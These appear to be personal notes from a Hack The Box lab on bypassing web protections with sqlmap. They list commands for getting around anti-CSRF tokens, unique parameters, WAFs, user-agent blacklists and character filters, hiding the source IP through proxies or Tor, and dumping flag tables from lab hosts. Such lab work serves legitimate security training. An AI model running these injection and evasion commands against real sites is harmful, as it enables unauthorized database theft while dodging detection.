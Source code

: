 # Bypassing Web Application Protections

## Anti-CSRF Token Bypass

sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

## Unique Value Bypass

sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

## Calculated Parameter Bypass

sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

## IP Address Concealing

--proxy="socks4://177.39.187.70:33283"
--proxy-file
--tor
--check-tor

SQLMap will connect to the https://check.torproject.org/ and check the response for the intended result (i.e., Congratulations appears inside).

## WAF Bypass

For example, if one of the most popular WAF solutions (ModSecurity) is implemented, there should be a 406 - Not Acceptable response after such a request.

--skip-waf

## User-agent Blacklisting Bypass

Default User-Agent : User-agent: sqlmap/1.4.9

--random-agent

## Tamper Scripts

--tamper=between,randomcase

## Miscellaneous Bypasses

--chunked

### LAB

# anti-CSRF token bypass

sqlmap -u "http://94.237.62.195:57826/case8.php" --data="id=1&t0ken=xlyNPaso1rqcMzpAmFDwQIqAA3qSigIRgmFx856h0c" --csrf-token="t0ken" --dump -T flag8 -D testdb

Database: testdb
Table: flag8
[1 entry]
+----+-----------------------------------+
| id | content                           |
+----+-----------------------------------+
| 1  | HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d} |
+----+-----------------------------------+

# Unique ID

sqlmap -u "http://94.237.62.195:57826/case9.php?id=1&uid=719489332" --randomize=uid --batch -v 5 --dump -T flag9 -D testdb

Database: testdb
Table: flag9
[1 entry]
+----+---------------------------------------+
| id | content                               |
+----+---------------------------------------+
| 1  | HTB{700_much_r4nd0mn355_f0r_my_74573} |
+----+---------------------------------------+


# Primitive protection

http://94.237.62.195:57826/case10.php



sqlmap -u "http://94.237.62.195:57826/case10.php" --tamper=between,randomcase --data 'id=1' --dump -T flag10 -D testdb

--> failed

vi case10.txt

POST /case10.php HTTP/1.1
Host: 94.237.62.195:57826
Content-Length: 4
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://94.237.62.195:57826
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://94.237.62.195:57826/case10.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=pihqfqfcd15aaipijibf5nln0a
Connection: close

id=1

--> Failed to create .txt file using vi , need to use text editor

sqlmap -r case10.txt --dump -T flag10 -D testdb

Database: testdb
Table: flag10
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{y37_4n07h3r_r4nd0m1z3} |
+----+----------------------------+

## Filtering of characters

http://94.237.62.195:57826/case11.php?id=1

sqlmap -u "http://94.237.62.195:57826/case11.php?id=1" --tamper=base64encode --dump -T flag11 -D testdb

--> failed

sqlmap -u "http://94.237.62.195:57826/case11.php?id=1" --tamper=base64encode -v 5 --dump -T flag11 -D testdb

--> failed


sqlmap -u "http://94.237.62.195:57826/case11.php?id=1" --tamper=base64encode -v 5 --risk 3 --dump -T flag11 -D testdb

--> failed

GET /case11.php?id=1 HTTP/1.1
Host: 94.237.62.195:57826
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://94.237.62.195:57826/case11.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=pihqfqfcd15aaipijibf5nln0a
Connection: close

sqlmap -r case11.txt --dump -T flag11 -D testdb

--> failed

sqlmap -u "http://83.136.250.104:36881/case11.php?id=1" --skip-waf --dump -T flag11 -D testdb

[13:01:29] [INFO] fetching entries for table 'flag11' in database 'testdb'
[13:01:29] [INFO] fetching number of entries for table 'flag11' in database 'testdb'


sqlmap -u 'http://83.136.250.104:36881/case11.php?id=1' --skip-waf --tables -D testdb

sqlmap -u 'http://83.136.250.104:36881/case11.php?id=1' --tamper=charencode --tables -D testdb

Database: testdb
[3 tables]
+------------------+
| hostbenchmarks   |
| routerbenchmarks |
| users            |
+------------------+

sqlmap -u 'http://83.136.250.104:36881/case11.php?id=1' --tamper=charencode --search -T flag11

[13:01:29] [INFO] fetching entries for table 'flag11' in database 'testdb'
[13:01:29] [INFO] fetching number of entries for table 'flag11' in database 'testdb'

sqlmap -u 'http://83.136.250.104:36881/case11.php?id=1' --tamper=charencode --dump -T flag11 -D testdb

[13:01:29] [INFO] fetching entries for table 'flag11' in database 'testdb'
[13:01:29] [INFO] fetching number of entries for table 'flag11' in database 'testdb'

sqlmap -u 'http://83.136.250.104:36881/case11.php?id=1' --tamper=between --dump -T flag11 -D testdb

Database: testdb
Table: flag11
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{5p3c14l_ch4r5_n0_m0r3} |
+----+----------------------------+
